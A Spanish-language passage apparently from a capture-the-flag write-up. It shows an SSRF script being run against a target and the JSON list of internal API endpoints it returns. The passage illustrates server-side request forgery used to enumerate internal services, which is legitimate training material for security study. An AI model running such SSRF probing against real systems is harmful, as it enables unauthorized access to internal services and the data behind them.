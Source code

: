 Estos son los endpoints a los que podemos hacer peticiones:

```bash
❯ python ssrf.py / | jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our libr
ary.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our librar
y.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new au
thors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
        "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates o
f the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

